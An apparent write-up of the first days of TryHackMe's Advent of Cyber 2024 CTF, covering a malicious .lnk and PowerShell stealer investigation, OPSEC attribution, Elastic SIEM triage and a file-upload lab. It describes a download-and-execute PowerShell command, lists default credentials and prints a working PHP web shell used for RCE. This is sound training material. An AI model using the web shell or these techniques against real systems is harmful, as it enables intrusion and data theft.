



# Advent of Cyber 2024

## Description

Dive into the wonderful world of cyber security by engaging in festive beginner-friendly exercises every day in the lead-up to Christmas!
* Difficulty: Easy
* Category: Advent of Cyber

## Table of Contents

* [[OPSEC] Day 1: Maybe SOC-mas music, he thought, doesn't come from a store?](#opsec-day-1-maybe-soc-mas-music-he-thought-doesnt-come-from-a-store)
* [[Log Analysis] Day 2: One man's false positive is another man's potpourri](#log-analysis-day-2-one-mans-false-positive-is-another-mans-potpourri)
* [[Log Analysis] Day 3: Even if I wanted to go, their vulnerabilities wouldn't allow it](#log-analysis-day-3-even-if-i-wanted-to-go-their-vulnerabilities-wouldnt-allow-it)
* [[Atomic Red Team] Day 4: I'm all atomic inside!](#atomic-red-team-day-4-im-all-atomic-inside)
* [[XXE] Day 5: SOC-mas XX-what-ee?](#xxe-day-5-soc-mas-xx-what-ee)
* [[Sandboxes] Day 6: If I can't find a nice malware to use, I'm not going.](#sandboxes-day-6-if-i-cant-find-a-nice-malware-to-use-im-not-going)
* [[AWS Log Analysis] Day 7: Oh, no. I'M SPEAKING IN CLOUDTRAIL!](#aws-log-analysis-day-7-oh-no-im-speaking-in-cloudtrail)

## [OPSEC] Day 1: Maybe SOC-mas music, he thought, doesn't come from a store?

### The Story

*McSkidy tapped keys with a confident grin,  
A suspicious website, now where to begin?  
She'd seen sites like this, full of code and of grime,  
Shady domains, and breadcrumbs easy to find.*

McSkidy's fingers flew across the keyboard, her eyes narrowing at the suspicious website on her screen. She had seen dozens of malware campaigns like this. This time, the trail led straight to someone who went by the name "Glitch."

"Too easy," she muttered with a smirk.

"I still have time," she said, leaning closer to the screen. "Maybe there's more."

Little did she know, beneath the surface lay something far more complex than a simple hacker's handle. This was just the beginning of a tangled web unravelling everything she thought she knew.

### Learning Objectives

* Learn how to investigate malicious link files
* Learn about OPSEC and OPSEC mistakes
* Understand how to track and attribute digital identities in cyber investigations

### Challenge

#### Investigating the Website

We are given an IP address. Let's check it out.


The website we are investigating is a Youtube to MP3 converter currently being shared amongst the organizers of SOC-mas. We've decided to dig deeper after hearing some concerning reports about this website.

At first glance, the website looks legit and presentable. The About Page even says that it was made by "The Glitch". How considerate of them to make our job easier!

Scrolling down, we'll see the feature list, which promises to be "Secure" and "Safe." From our experience, that isn't very likely.

#### Youtube to MP3 Converter Websites

These websites have been around for a long time. They offer a convenient way to extract audio from YouTube videos, making them popular. However, historically, these websites have been observed to have significant risks, such as:
* **Malvertising:** Many sites contain malicious ads that can exploit vulnerabilities in a user's system, which could lead to infection.
* **Phishing scams:** Users can be tricked into providing personal or sensitive information via fake surveys or offers.
* **Bundled malware:** Some converters may come with malware, tricking users into unknowingly running it.

#### Getting some tunes

Let's find out by pasting a Youtube link into the converter. This should download a file for us to investigate. We will be using [our anthem song](https://www.youtube.com/watch?v=dQw4w9WgXcQ) for this. We then extract the downloaded file.


We can see that there are 2 files extracted: `song.mp3` and `somg.mp3`.

Let's quickly determine the file type of these files using the `file` command.


The `song.mp3` file is a regular audio file, while the `somg.mp3` file is an MS Windows shortcut file, aka a `.lnk` file. This file type is used in Windows to link to another file, folder, or application. These shortcuts can also be used to run commands!

There are multiple ways to inspect a `.lnk` file to reveal the embedded commands and attributes. This time we will be using `exiftool`.


Let's go through details of the command shown in the output:
* The `-ep Bypass -nop` flags disable PowerShell's usual restrictions, allowing the script to run without interference from security settings or user profiles.
* The `DownloadFile` method pulls an `IS.ps1` file from a remote `https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1` server and saves it in the `C:\ProgramData` directory.
* Once downloaded, the script is executed using the `iex` command, stands for `Invoke-Expression`, which triggers the downloaded `s.ps1` script.

Now we know what the link file does. Let's take a look at the script it downloads. We can visit the link in the command to view the script.


We can see that the script is designed to collect sensitive information from the victim's system, such as cryptocurrency wallets and saved browser credentials, and then send it to an attacker's remote server.

This looks fairly typical of a PowerShell script for such a purpose, with one notable exception: a signature in the code that reads `Created by the one and only M.M.`.

#### Searching the Source

There are many paths we could take to continue our investigation. We could investigate the website further, analyse its source code, or search for open directories that might reveal more information about the malicious actor's setup. We can search for the hash or signature on public malware databases like VirusTotal or AnyRun. Each of these methods could yield useful clues.

However, we will try something different this time. Since we already have the PowerShell code, searching for it online might give us useful leads. It's a long shot, but we'll explore it in this exercise.

There are many places where we can search for code. The most widely used is Github. So let's try searching there.

To search effectively, we can look for unique parts of the code that we could use to search with. The more distinctive, the better. For this scenario, we have the string we've uncovered before that reads: `Created by the one and only M.M.`.


As we go through the search result, we found an interesting issue thread. Let's take a look at it.


Looks like this user has made a critical mistake.

##### Introduction to OPSEC

This is a classic case of OPSEC failure.

Operational Security (OPSEC) is a term originally coined in the military to refer to the process of protecting sensitive information and operations from adversaries. The goal is to identify and eliminate potential vulnerabilities before the attacker can learn their identity.

In the context of cyber security, when malicious actors fail to follow proper OPSEC practices, they might leave digital traces that can be pieced together to reveal their identity. Some common OPSEC mistakes include:
* Reusing usernames, email addresses, or account handles across multiple platforms. One might assume that anyone trying to cover their tracks would remove such obvious and incriminating information, but sometimes, it's due to vanity or simply forgetfulness.
* Using identifiable metadata in code, documents, or images, which may reveal personal information like device names, GPS coordinates, or timestamps.
* Posting publicly on forums or GitHub with details that tie back to their real identity or reveal their location or habits.
* Failing to use a VPN or proxy while conducting malicious activities allows law enforcement to track their real IP address.

We'd think that someone doing something bad would make OPSEC their top priority, but they're only human and can make mistakes, too.

Here are some real-world OPSEC mistakes that led to some really big fails:

##### AlphaBay Admin Takedown

One of the most spectacular OPSEC failures involved Alexandre Cazes, the administrator of AlphaBay, one of the largest dark web marketplaces:
* Cazes used the email address `pimp_alex_91@hotmail.com` in early welcome emails from the site.
* This email included his year of birth and other identifying information.
* He cashed out using a Bitcoin account tied to his real name.
* Cazes reused the username `Alpha02` across multiple platforms, linking his dark web identity to forum posts under his real name.

##### Chinese Military Hacking Group (APT1)

There's also the notorious Chinese hacking group APT1, which made several OPSEC blunders:
* One member, Wang Dong, signed his malware code with the nickname `Ugly Gorilla`.
* This nickname was linked to programming forum posts associated with his real name.
* The group used predictable naming conventions for users, code, and passwords.
* Their activity consistently aligned with Beijing business hours, making their location obvious.

These failures provided enough information for cyber security researchers and law enforcement to publicly identify group members.

#### Uncovering MM

We know the attacker left a distinctive signature in the PowerShell code (MM). This allowed us to search for related repositories and issues pages on GitHub. We then discovered an Issues page where the attacker engaged in discussions, providing more context and linking their activity to other projects.

In this discussion, they responded to a query about modifying the code. This response, paired with their unique handle, was another critical slip-up, leaving behind a trail of evidence that can be traced back to them. By analysing the timestamps, usernames, and the nature of their interactions, we can now attribute the mastermind behind the attack to MM.

#### What's Next?

*McSkidy dug deeper, her mind sharp and quick,  
But something felt off, a peculiar trick.  
The pieces she’d gathered just didn’t align,  
A puzzle with gaps, a tangled design.*

As McSkidy continued digging, a pattern emerged that didn't fit the persona she was piecing together. A different handle appeared in obscure places, buried deep in the details: `MM.`

"Who's MM?" McSkidy muttered, the mystery deepening.

Even though all signs on the website seemed to point to Glitch as the author, it became clear that someone had gone to great lengths to ensure Glitch's name appeared everywhere. Yet, the scattered traces left by MM suggested a deliberate effort to shift the blame.

#### Solving challenge questions

1. Who is the author of the song?

As we check the `song.mp3` file with `exiftool`, we can see the name of the author in the metadata.

```
┌──(DrunkenHacker㉿kali)-[~/MyCourses/TryHackMe/adventofcyber2024/Day1]
└─$ exiftool song.mp3 
ExifTool Version Number         : 12.76
File Name                       : song.mp3
Directory                       : .
File Size                       : 4.6 MB
File Modification Date/Time     : 2024:10:24 09:50:46+02:00
File Access Date/Time           : 2024:12:02 13:06:58+01:00
File Inode Change Date/Time     : 2024:12:02 12:57:46+01:00
File Permissions                : -rwxrwxr-x
File Type                       : MP3
File Type Extension             : mp3
MIME Type                       : audio/mpeg
MPEG Audio Version              : 1
Audio Layer                     : 3
Audio Bitrate                   : 192 kbps
Sample Rate                     : 44100
Channel Mode                    : Stereo
MS Stereo                       : Off
Intensity Stereo                : Off
Copyright Flag                  : False
Original Media                  : False
Emphasis                        : None
ID3 Size                        : 2176
Artist                          : [REDACTED]
Album                           : Rap
Title                           : Mount HackIt
Encoded By                      : Mixcraft 10.5 Recording Studio Build 621
Year                            : 2024
Genre                           : Rock
Track                           : 0/1
Comment                         : 
Date/Time Original              : 2024
Duration                        : 0:03:11 (approx)
```

2. The malicious PowerShell script sends stolen info to a C2 server. What is the URL of this C2 server?

We have seen the URL in the PowerShell script.

3. Who is M.M? Maybe his Github profile page would provide clues?

As we go to the Github profile page of `MM-WarevilleTHM`, we can see 2 public repositories: `IS` and `M.M`. The `IS` repository contains the PowerShell script we have seen before. As we check the other repository, we can see that it contains a Markdown file as follows:

```markdown
- Hi, I’m M.M, also known as [REDACTED]. I run things in Wareville Town.
- This year, SOC-mas is not going to happen and I will do all I can to sabotage it.
- I'll develop all necessary tools and plans to sabotage the event and frustrate the citizens of Wareville. One thing is to find someone to blame for all this. Maybe Glitch will take the blame.
- How to reach me? Find me around Wareville.
```

4. What is the number of commits on the GitHub repo where the issue was raised?

We can go the issue thread we found earlier, then go to **Insights** $\rightarrow$ **Commits** to see the number of commits.

## [Log Analysis] Day 2: One man's false positive is another man's potpourri

### The Story

It’s the most wonderful time of the year again, and it’s also the most stressful day for Wareville’s Security Operations Center (SOC) team. Despite the overwhelming alerts generated by the new and noisy rules deployed, Wareville’s SOC analysts have been processing them nonstop to ensure the safety of the town.

However, the SOC analysts are now burning out of all the workload needed before Christmas. Numerous open cases are still pending, and similar alerts are still firing repeatedly, making them think of the possibility of false positives out of all this mess.

Now, we need to help the awesome Wareville’s SOC team analyse the alerts to determine whether the rumour is true - that Mayor Malware is instigating chaos within the town.

### True Positives or False Positives?

In a SOC, events from different devices are sent to the SIEM, which is the single source of truth where all the information and events are aggregated. Certain rules (Detection Engineering rules) are defined to identify malicious or suspicious activity from these events.

If an event or set of events fulfils the conditions of a rule, it triggers an alert. A SOC analyst then analyses the alert to identify if the alert is a True Positive (TP) or a False Positive (FP).

An alert is considered a TP if it contains actual malicious activity. On the flip side, if the alert triggers because of an activity that is not actually malicious, it is considered an FP. This might seem very simple in theory, but practically, separating TPs from FPs can be a tedious job. It can sometimes become very confusing to differentiate between an attacker and a system administrator.

### Making a Decision

While it is confusing to differentiate between TPs and FPs, it is very crucial to get it right. If a TP is falsely classified as an FP, it can lead to a significant impact from a missed cyber attack. If an FP is falsely classified as a TP, precious time will be spent focusing on the FP, which might lead to less focus on an actual attack. So, how exactly do we ensure that we perform this crucial job effectively? We can use the below pointers to guide us.

#### Using the SOC Superpower

The SOC has a superpower. When they are unsure whether an activity is performed by a malicious actor or a legitimate user, they can just confirm with the user. This privilege is not available to the attacker. A SOC analyst, on the other hand, can just send an email or call the relevant person to get confirmation of a certain activity.

In mature organisations, any changes that might trigger an alert in the SOC often require Change Requests to be created and approved through the IT change management process. Depending on the process, the SOC team can ask the users to share Change Request details for confirmation. Surely, if it is a legitimate and approved activity, it must have an approved Change Request.

#### Context

While it might seem like using the SOC superpower makes things super easy, that is not always the case. There are cases which can act as Kryptonite to the SOC superpower:
* If an organisation doesn't have a change request process in place.
* The performed activity was outside the scope of the change request or was different from that of the approved change request.
* The activity triggered an alert, such as copying files to a certain location, uploading a file to some website, or a failed login to a system.
* An insider threat performed an activity they are not authorised to perform, whether intentionally or unintentionally.
* A user performed a malicious activity via social engineering from a threat actor.

In such scenarios, it is very important for the SOC analyst to understand the context of the activity and make a judgement call based on their analysis skills and security knowledge. While doing so, the analyst can look at the past behaviour of the user or the prevalence of a certain event or artefact throughout the organisation or a certain department.

For example, if a certain user from the network team is using Wireshark, there is a chance that other users from the same team also use Wireshark. However, Wireshark seen on a machine belonging to someone from HR or finance should rightfully raise some eyebrows.

#### Correlation

When building the context, the analyst must correlate different events to make a story or a timeline. Correlation entails using the past and future events to recreate a timeline of events. When performing correlation, it is important to note down certain important artefacts that can then be used to connect the dots. These important artefacts can include IP addresses, machine names, user names, hashes, file paths, etc.

Correlation requires a lot of hypothesis creation and ensuring that the evidence supports that hypothesis. A hypothesis can be something like the user downloaded malware from a spoofed domain. The evidence to support this can be proxy logs that support the hypothesis that a website was visited, the website used a spoofed domain name, and a certain file was downloaded from that website.

Now, let's say, we want to identify whether the malware executed through some vulnerability in an application or a user intentionally executed the malware. To see that, we might look at the parent process of the malware and the command line parameters used to execute the said malware.

If the parent process is Windows Explorer, we can assume the user executed the malware intentionally (or they might have been tricked into executing it via social engineering), but if the parent process is a web browser or a word processor, we can assume that the malware was not intentionally executed, but it was executed because of a vulnerability in the said application.

### Is this a TP or an FP?

Similar to every SOC, the analysts in the Wareville SOC also need to differentiate TPs from FPs. This becomes especially difficult for them near Christmas when the analysts face alert fatigue.

High chances of misclassification of TPs into FPs and vice versa are present in such times. The analysts, therefore, appreciate any help they could get from us in this crucial time. To make matters worse, the office of the Mayor has sent the analysts an alert informing them of multiple encoded powershell commands run on their systems. Perhaps we can help with that.

We are given access to an Elastic SIEM instance to analyse the logs.


Time to log in and check the logs.


Now that we are in, time to look at the **Discover** tab to see we are dealing with. According to the alert sent by the Mayor's office, the activity occurred on Dec 1st, 2024, between 09:00 and 09:30. We can set this as our time window by clicking the timeframe settings in the upper-right corner.


Now that we have set the time window, we see 21 events in the timeframe. In their current form, these events don't look very easily readable. We can use the fields in the left pane to add columns to the results and make them more readable.

Since we are looking for events related to PowerShell, we would like to know the following details about the logs:
* The hostname where the command was run. We can use the `host.hostname` field as a column for that.
* The user who performed the activity. We can add the `user.name` field as a column for this information.
* We will add the `process.command_line` field to ensure we are looking at the correct event category.
* To know the actual commands run using PowerShell, we can add the `process.command_line` field.
* Finally, to know if the activity succeeded, we will add the `event.outcome` field.

Once we have added these fields as columns, we will see the results in a format like this.


So, it looks like someone ran the same encoded PowerShell command on multiple machines. Another thing to note here is that before each execution of the PowerShell command, we see an authentication event, which was successful.

This activity is observed individually on each machine, and the time difference between the login and PowerShell commands looks very precise. Best practices dictate that named accounts are used for any kind of administrator activity so that there is accountability and attribution for each administrative activity performed.

The usage of a generic admin account here also seems suspicious. On asking, the analysts informed us that this account is used by two administrators who were not in the office when this activity occurred. Something is definitely not right. Are these some of Glitch's shenanigans? Is Christmas in danger? We need to find out who ran these commands.

Let's add in the `source.ip` field to find out who ran the PowerShell commands.


Since the `source.ip` field is only available for the authentication events, we can filter out the process events to see if there is a pattern. Let's filter for authentication events to show only those in the results.


As a result, we can see that the output only renders the authentication events. Since the result does not give useful insights, let's remove it for now.

Since the timeframe we previously used was for the PowerShell events, and the authentication events might have been coming from before that, we will need to expand the search to understand the context and the historical events for this user. Let's see if we have any events from the user from the 29th of November to the 1st of December. Updating the time filter for these days, the results look like this.


There have been more than 6000 events in 3 days! However, even though we used the time filter for the day end on the 1st of December, we see no events after successful PowerShell execution. There have also been a lot more authentication events in the previous days than on the 1st of December.

To understand the events further, let's filter for our `user.name` with `service_admin` and `source.ip` with `10.0.11.11` to narrow our search.


Uh-oh! It looks like all these events have been coming from the same user and the same IP address. We definitely need to investigate further. This also does not explain the spike. Let's filter for authentication events first. Moreover, let's filter out the Source IP here to see if we can find the IP address that caused the spike.


Scrolling down, we see many events for failed logins. We also see that the IP address for the spike differs from the one we saw for the events continuously coming in the previous days. The analysts have previously investigated this and found that a script with expired credentials was causing this issue. However, that script was updated with a fresh set of credentials. Anyhow, this might just be another script. Let's remove the source IP filter so we can focus on authentication events close to the spike.


After applying the new filter, we see that the failed logins stopped a little while after the successful login from the new IP. Our suspicions are rising. It seems that someone tried a brute-force attack on December 1st, as shown by the same filters applied above.


The results also showed that they succeeded with the brute-force attempt because of the successful authentication attempt and quickly ran some PowerShell commands on the affected machines. Once the PowerShell commands were run, we didn't see any further login attempts. This looks like a TP, and there needs to be an escalation so that McSkidy can help us respond to this incident.

### Christmas in Danger?

The alarms have gone off, and McSkidy has been called to help take this incident further. The analysts have briefed McSkidy about the incident. McSkidy observed that nobody had actually looked at what the PowerShell command contained. Since the command was encoded, it needs to be decoded. McSkidy changed the filters with `event.category`: process to take a deeper look at the PowerShell commands.


We can see the PowerShell command in the `process.command_line` field.

```powershell
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -EncodedCommand SQBuAHMAdABhAGwAbAAtAFcAaQBuAGQAbwB3AHMAVQBwAGQAYQB0AGUAIAAtAEEAYwBjAGUAcAB0AEEAbABsACAALQBBAHUAdABvAFIAZQBiAG8AbwB0AA==
```

McSkidy knows that Encoded PowerShell commands are generally Base64 Encoded and can be decoded using tools such as CyberChef.



The result provided a sigh of relief to McSkidy, who had feared that the Christmas had been ruined. Someone had come in to help McSkidy and the team secure their defences, but who?

### Villian or Hero?

McSkidy further analysed the secret hero and came to a startling revelation. The credentials for the script in the machines that ran the Windows updates were outdated. Someone brute-forced the systems and fixed the credentials after successfully logging in.

This was evident from the fact that each executed PowerShell command was preceded by a successful login from the same Source IP, causing failed logins over the past few days. And what's even more startling? It was Glitch who accessed ADM-01 and fixed the credentials after McSkidy confirmed who owned the IP address.

This meant that the people of Wareville had misunderstood Glitch, who was just trying to help shore up the defences. But if Glitch was the one helping the defences, who was trying to sabotage it? Was it the Mayor who informed the SOC about these *suspicious* PowerShell commands?

Just like alerts aren't always what they seem in a SOC, so was the case here at Wareville with people. As hard as it was to differentiate between a TP and an FP, so was the case with the Mayor and Glitch. However, McSkidy can perhaps use the evidence-based deduction skills learned in a SOC to make this difference easier for the people of Wareville.

### Solving challenge questions

1. What is the name of the account causing all the failed login attempts?

The account causing all the failed login attempts is seen earlier in the logs as we applied the filter.

2. How many failed logon attempts were observed?

We can set the `event.category` filter to `authentication` and the `event.outcome` filter to `failure` to see the number of failed logon attempts.

3. What is the IP address of Glitch?

It was the IP address that caused the spike in the logs.

4. When did Glitch successfully logon to ADM-01? Format: `MMM D, YYYY HH:MM:SS.SSS`

As we have Glitch's IP address, we can filter for the successful logon events from that IP address.

5. What is the decoded command executed by Glitch to fix the systems of Wareville?

We decoded the command earlier.

## [Log Analysis] Day 3: Even if I wanted to go, their vulnerabilities wouldn't allow it

### The Story

*Late one Christmas evening the Glitch had a feeling,*  
*Something forgotten as he stared at the ceiling.*  
*He got up out of bed and decided to check,*  
*A note on his wall: ”Two days! InsnowSec”.*

*With a click and a type he got his hotel and tickets,*  
*And sank off to sleep to the sound of some crickets.*  
*Luggage in hand, he had arrived at Frosty Pines,*  
*“To get to the conference, just follow the signs”.*

*Just as he was ready the Glitch got a fright,*  
*An RCE vulnerability on their website ?!?*  
*He exploited it quick and made a report,*  
*But before he could send arrived his transport.*

*In the Frosty Pines SOC they saw an alert,*  
*This looked quite bad, they called an expert.*  
*The request came from a room, but they couldn’t tell which,*  
*The logs saved the day, it was the room of... the Glitch.*

In this task, we will cover how the SOC team and their expert were able to find out what had happened (Operation Blue) and how the Glitch was able to gain access to the website in the first place (Operation Red).

### Learning Objectives

* Learn about Log analysis and tools like ELK.
* Learn about KQL and how it can be used to investigate logs using ELK.
* Learn about RCE (Remote Code Execution), and how this can be done via insecure file upload.

### OPERTATION BLUE

#### Log Analysis and ELK

Analysing logs can quickly become overwhelming, especially if we have multiple devices and services. ELK, or Elasticsearch, Logstash, and Kibana, combines data analytics and processing tools to make analysing logs much more manageable. ELK forms a dedicated stack that can aggregate logs from multiple sources into one central place.

#### Kibana Query Language (KQL)

KQL, or Kibana Query Language, is an easy-to-use language that can be used to search documents for values. For example, querying if a value within a field exists or matches a value. If we are working with Splunk, we may be thinking of SPL (Search Processing Language).

Alternatively, Kibana also allows using Lucene query, an advanced language that supports features such as fuzzy terms (searches for terms that are similar to the one provided), regular expressions, etc. The table below contains a mini-cheatsheet for KQL syntax.

| **Query/Syntax** | **Description**                                                                                      | **Example**                   |
| ---------------- | ---------------------------------------------------------------------------------------------------- | ----------------------------- |
| ""               | Search for an exact match                                                                            | "TryHackMe"                   |
| *                | The asterisk denotes a wildcard, which searches documents for similar matches to the value provided. | United*                       |
| OR               | This logical operator is used to show documents that contain either of the values provided.          | "United Kingdom" OR "England" |
| AND              | This logical operator is used to show documents that contain both values.                            | "Ben" and "25"                |
| :                | This is used to search the (specified) field of a document for a value                               | ip.address: 10.10.10.10       |

#### Investigating Web Attack with ELK

**Scenario:** Thanks to our extensive intrusion detection capabilities, our systems alerted the SOC team to a web shell being uploaded to the WareVille Rails booking platform on Oct 1, 2024. Our task is to review the web server logs to determine how the attacker achieved this.

Steps to investigate:
1. Go to **Discover** in Kibana.
2. Set the time range.
3. Apply suitable filters and analyse the logs.

### OPERATION RED

#### Why Do Websites Allow File Uploads

File uploads are everywhere on websites, and for good reason. Users often need to upload files like profile pictures, invoices, or other documents to update their accounts, send receipts, or submit claims. These features make the user experience smoother and more efficient. But while this is convenient, it also creates a risk if file uploads aren't handled properly. If not properly secured, this feature can open up various vulnerabilities attackers can exploit.

#### File Upload Vulnerabilities

File upload vulnerabilities occur when a website doesn't properly handle the files that users upload. If the site doesn't check what kind of file is being uploaded, how big it is, or what it contains, it opens the door to all sorts of attacks. For example:
* **RCE:** Uploading a script that the server runs gives the attacker control over it.
* **XSS:** Uploading an HTML file that contains an XSS code which will steal a cookie and send it back to the attacker's server.

#### Why Unrestricted File Uploads Are Dangerous

Unrestricted file uploads can be particularly dangerous because they allow an attacker to upload any type of file. If the file's contents aren't properly validated to ensure only specific formats like PNG or JPG are accepted, an attacker could upload a malicious script, such as a PHP file or an executable, that the server might process and run. This can lead to code execution on the server, allowing attackers to take over the system.

Examples of abuse through unrestricted file uploads include:
* Uploading a script that the server executes, leading to RCE.
* Uploading a crafted image file that triggers a vulnerability when processed by the server.
* Uploading a web shell and browsing to it directly using a browser.

#### Usage of Weak Credentials

One of the easiest ways for attackers to break into systems is through weak or default credentials. This can be an open door for attackers to gain unauthorised access. Default credentials are often found in systems where administrators fail to change initial login details provided during setup. For attackers, trying a few common usernames and passwords can lead to easy access.

Here are some common or weak credentials that attackers might try:
* `admin:admin`
* `administrator:administrator`
* `admin@domainname:admin`
* `guest:guest`

#### What is Remote Code Execution (RCE)

Remote code execution (RCE) happens when an attacker finds a way to run their own code on a system. This is a highly dangerous vulnerability because it can allow the attacker to take control of the system, exfiltrate sensitive data, or compromise other connected systems.

#### What is a Web Shell

A web shell is a script that attackers upload to a vulnerable server, giving them remote control over it. Once a web shell is in place, attackers can run commands, manipulate files, and essentially use the compromised server as their own. They can even use it to launch attacks on other systems.

For example, attackers could use a web shell to:
* Execute commands on the server
* Move laterally within the network
* Download sensitive data or pivot to other services

A web shell typically gives the attacker a web-based interface to run commands. Still, in some cases, attackers may use a reverse shell to establish a direct connection back to their system, allowing them to control the compromised machine remotely. Once an attacker has this level of access, they might attempt privilege escalation to gain even more control, such as achieving root access or moving deeper into the network.

#### Exploiting RCE via File Upload

Once an RCE vulnerability has been identified that can be exploited via file upload, we now need to create a malicious file that will allow remote code execution when uploaded.

#### Making the most of it

Once the vulnerability has been exploited and we now have access to the operating system via a web shell, there are many next steps we could take depending on:
1. What our goal is
2. What misconfigurations are present on the system, which will determine exactly what we can do.

These are just some commands that can be run following a successful RCE exploit. It's very open-ended, and what we can do will rely on our abilities to inspect an environment and vulnerabilities in the system itself.

### Practical

We will be answering questions while solving the challenge. First, we need to access Kibana on `<MACHINE_IP>:5601` to investigate the logs.



As we arrive at the Kibana home page, we continue to the **Discover** tab to investigate the logs.


We haven't seen any logs yet but okay. We set the index pattern to `frostypines-resorts` and the time range to between 11:30 and 12:00 on Oct 3rd, 2024 as given in the challenge.


We can see that there are 483 hits in the logs. As we take a look at the `clientip` field, we can see that there are 2 main IP addresses: `10.9.254.186` and `10.11.83.34`. Let's first take a look at the logs of `10.9.254.186`.


There are 314 hits for this IP address. After some extensive scrolling, it seems that all the logs are legitimate activities. Let's now take a look at the logs of `10.11.83.34`.


After just a few scrolls, we can set requests to a file named `shell.php` with `command` parameter set to various commands such as `ls`, `id`, `echo`, etc. This is an indication of a web shell uploaded to the website.

> **BLUE:** Where was the web shell uploaded to?  
> **Answer format:** `/directory/directory/directory/filename.php`
> Answer hint: Look at the `request` field in the logs.

> **BLUE:** What IP address accessed the web shell?  
> **Answer:** `10.11.83.34`

Now that we know what happened, we need to recreate the attack to confirm the vulnerability. We will go to the website via the link provided.


We found a login page. We can try default credentials such as `admin@frostypines.thm:admin` to see if we can log in.


It worked! And we also see an admin panel. Let's check it out.


There is an `Add new room` section. Time to check it out.


Now we upload our webshell. We can use the webshell provided in the challenge.

```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```

We save this as `webshell.php` and upload it. Then we go to the `webshell.php` file to see if it works.


Sounds like it does! Let's try running some commands.


Seems like we have RCE. And we even have sudo privileges. Let's check the files around us.


> **RED:** What is the contents of the flag.txt?  
> We have seen the `flag.txt` file in the previous `ls` command. Check the contents with `cat` and we have the flag.

## [Atomic Red Team] Day 4: I'm all atomic inside!

### The Story

SOC-mas is approaching! And the town of Warewille started preparations for the grand event.

Glitch, a quiet, talented security SOC-mas engineer, had a hunch that these year's celebrations would be different. With looming threats, he decided to revamp the town's security defences. Glitch began to fortify the town's security defences quietly and meticulously. He started by implementing a protective firewall, patching vulnerabilities, and accessing endpoints to patch for security vulnerabilities. As he worked tirelessly, he left "breadcrumbs", small traces of his activity.

